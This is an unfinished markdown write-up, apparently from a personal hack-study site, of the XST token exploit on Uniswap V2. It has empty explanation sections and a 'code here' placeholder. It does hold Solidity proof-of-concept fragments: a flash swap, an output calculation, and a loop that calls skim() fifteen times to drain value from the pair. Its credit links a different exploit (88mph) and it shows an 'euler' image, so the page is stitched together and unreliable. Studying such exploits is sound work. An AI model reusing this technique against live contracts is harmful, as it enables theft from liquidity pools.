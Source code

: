 # XST

## What's XST?


## Amount stolen
27.13 WETH


## Vulnerability



## Analysis



### Exploited code

```solidity
   code here
```

# proof of concept (PoC) 



#### get values




```solidity
        amount = WETH.balanceOf(address(Pair2));
        Pair1.swap(amount * 2, 0, address(this), " ");
```


```solidity
uint256 amountSellWETH = WETH.balanceOf(address(this));
(uint256 reserve0, uint256 reserve1,) = Pair2.getReserves(); // r0 : XST r1 WETH
```


//fpormula image here

```solidity
  uint256 amountOutXST = amountSellWETH * 997 * reserve0 / (reserve1 * 1000 + amountSellWETH * 997);
```


//parameter image here


```solidity
  WETH.transfer(address(Pair2), amountSellWETH);
  Pair2.swap(amountOutXST, 0, address(this), "");
```


#### skim

The skim function in Uniswap V2 is used to claim accumulated tokens from a liquidity pool without removing liquidity. 
It's often used to retrieve additional tokens that have been accumulated due to various operations, such as swaps.
   

```solidity
     XST.transfer(address(Pair2), XST.balanceOf(address(this)) / 8);   //(1/8th) of the XST balance held by the contract to the Uniswap pair, adding more liquidity to the pool.
        for (int256 i = 0; i < 15; i++) {
            Pair2.skim(address(Pair2));
        }

     Pair2.skim(address(this));
```


```solidity
   // sell XST to WETH
          // XST is SupportFeeOn Token
          XST.transfer(address(Pair2), XST.balanceOf(address(this)));

```








![euler Image](../images/euler/euler.png)


**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/88mph_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
